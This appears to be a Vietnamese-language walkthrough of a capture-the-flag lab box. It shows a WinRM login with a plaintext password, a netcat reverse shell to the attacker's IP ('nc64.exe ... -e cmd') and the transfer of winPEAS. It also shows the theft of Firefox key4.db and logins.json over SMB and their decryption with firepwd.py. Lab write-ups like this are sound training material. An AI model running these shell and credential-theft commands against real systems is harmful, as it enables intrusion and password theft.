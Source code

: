 phát hiện truy cập đc smb và list được các thư mục share nhưng đều là default nên ko khai thác đc tiếp

thử với winrm ok

crackmapexec winrm 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'

![https://lh7-us.googleusercontent.com/UPyfowFP_1dEcP4LZ1qI9Ynya6pnEQp1hG_kCn9QHqIZ5admXk7RKQebC7yH_qs3NG1juDWQFu4JxD-7KCkh5myYu5oqL8fa9eeZi4X0PBEL7MNEcnqg_UWN6AaduF5prgfPtvRMvltL](https://lh7-us.googleusercontent.com/UPyfowFP_1dEcP4LZ1qI9Ynya6pnEQp1hG_kCn9QHqIZ5admXk7RKQebC7yH_qs3NG1juDWQFu4JxD-7KCkh5myYu5oqL8fa9eeZi4X0PBEL7MNEcnqg_UWN6AaduF5prgfPtvRMvltL)

sử dụng evil-winrm để provides remote shell access to Windows machines over WinRM (Windows Remote Management).

![https://lh7-us.googleusercontent.com/l80szWx8vMTTc6mMELExdY6PGsnYQvTjIRKXb86Dqk6BhDQgT9bNO7wTXu7hXBAeJcwvVbQnVdmQPYjh-59NPn_bMMlHJOeiROtDlXRu2a10KYR6hXjxUbeQsCDsvzjmde4WOjbn4N_x](https://lh7-us.googleusercontent.com/l80szWx8vMTTc6mMELExdY6PGsnYQvTjIRKXb86Dqk6BhDQgT9bNO7wTXu7hXBAeJcwvVbQnVdmQPYjh-59NPn_bMMlHJOeiROtDlXRu2a10KYR6hXjxUbeQsCDsvzjmde4WOjbn4N_x)

![https://lh7-us.googleusercontent.com/24CjHc-VHn3BLLOG4oLCZHjtHbO0jawx_fkCWgtgGJK2bcCvTWEgmttIVV_FGr3snh4ojEjsXSdvI-USV59jQ_2SrU5Kn3oMzYRfWgn_JsO8b-8Cz-tCqZCoRtVLIgQ1WSK9ee3wKckl](https://lh7-us.googleusercontent.com/24CjHc-VHn3BLLOG4oLCZHjtHbO0jawx_fkCWgtgGJK2bcCvTWEgmttIVV_FGr3snh4ojEjsXSdvI-USV59jQ_2SrU5Kn3oMzYRfWgn_JsO8b-8Cz-tCqZCoRtVLIgQ1WSK9ee3wKckl)

chuyển sang shell khác cho dễ thao tác

tạo kết nối smb impacket-smbserver share . -smb2support

từ victim kiểm tra net view \\10.10.16.7\share

từ victim netcat

\\10.10.16.7\share\nc64.exe 10.10.16.7 4449 -e cmd

và lắng nghe bên attack

![https://lh7-us.googleusercontent.com/IbtapN0wHS0kzxOResgcrY7QUc4DSFCh64N44cEm6VpFyXLRS_u-Sf36AF_8GBuIvn0y3IGfqgkhEgg7lKhteJz63wcE-sXp5p6vjeVYtMMRMUKm-e4KDo2uE71Ocgs4W9jlyNyqcWZM](https://lh7-us.googleusercontent.com/IbtapN0wHS0kzxOResgcrY7QUc4DSFCh64N44cEm6VpFyXLRS_u-Sf36AF_8GBuIvn0y3IGfqgkhEgg7lKhteJz63wcE-sXp5p6vjeVYtMMRMUKm-e4KDo2uE71Ocgs4W9jlyNyqcWZM)

c1: sử dụng winpeas tìm cve/data sensitive …

copy file winpeasx86 sang victim

copy \\10.10.16.7\share\winPEASx86.exe

run winPEASx86.exe

![https://lh7-us.googleusercontent.com/LBwea4etNS9PmLgPrlDMnBWCN3rTHtR8Lponpllv7KUqVXnyMQLQmP2Pl0Bim_wDfxfdNTUu4i1DqzTz-qwzuSB89v6HH9e5CbGjMhcq9k0DuIM5NCBRb4lagJjwMjBNXWfwAamteHll](https://lh7-us.googleusercontent.com/LBwea4etNS9PmLgPrlDMnBWCN3rTHtR8Lponpllv7KUqVXnyMQLQmP2Pl0Bim_wDfxfdNTUu4i1DqzTz-qwzuSB89v6HH9e5CbGjMhcq9k0DuIM5NCBRb4lagJjwMjBNXWfwAamteHll)

tìm thấy 4 cred trên firefox

![https://lh7-us.googleusercontent.com/gC0Lge8dllDG23Ee5Hv3uwVDmRpsh4iA8KdKzvO9biygctGgt1tqyT8yHlYzb3-uwFHd6mwFuoYb69FqMVdleKv0QCfGjv8cA15u4cZVvhe4r1QfwSxh7eOPP1GyWxFmortunEvmt6jf](https://lh7-us.googleusercontent.com/gC0Lge8dllDG23Ee5Hv3uwVDmRpsh4iA8KdKzvO9biygctGgt1tqyT8yHlYzb3-uwFHd6mwFuoYb69FqMVdleKv0QCfGjv8cA15u4cZVvhe4r1QfwSxh7eOPP1GyWxFmortunEvmt6jf)

c2: exfiltration thấy có sử dụng firefox -> tìm thấy một vài file có khả năng chứa thông tin như key4.db và logins.json

net use \\10.10.16.7\share

![https://lh7-us.googleusercontent.com/ntqihxj9ZcVgqrKcH7QBaH71mesKqerlRX4wqnjEgAmY1PwIMVqi4TvpSx3v-Mdh3WwE2sq6fTsz0cs2qRLPVJQzPu88EMCuYTXIcQiQYZOcRCc1PgEzlRNBrZIekosOLK27czIcPZZe](https://lh7-us.googleusercontent.com/ntqihxj9ZcVgqrKcH7QBaH71mesKqerlRX4wqnjEgAmY1PwIMVqi4TvpSx3v-Mdh3WwE2sq6fTsz0cs2qRLPVJQzPu88EMCuYTXIcQiQYZOcRCc1PgEzlRNBrZIekosOLK27czIcPZZe)

copy 2 file key4.db và logins.json sang kali

run exploit firepwd.py để decrypt

![https://lh7-us.googleusercontent.com/oMWDa6UErj3cIB3rs6ejHwRw2ckVMxaSCdC_fhud8BdF-z44MZEufTLDD8Pc9z-3R-XnrumSgqoSKLRe4Yz3V9uVtil8M9iAz_oyR9zRXyFPHbO3ExHizoMAEoYgvoV_da6MvYPDJZIp](https://lh7-us.googleusercontent.com/oMWDa6UErj3cIB3rs6ejHwRw2ckVMxaSCdC_fhud8BdF-z44MZEufTLDD8Pc9z-3R-XnrumSgqoSKLRe4Yz3V9uVtil8M9iAz_oyR9zRXyFPHbO3ExHizoMAEoYgvoV_da6MvYPDJZIp)

sử dụng crackmapexec để  bruteforce login
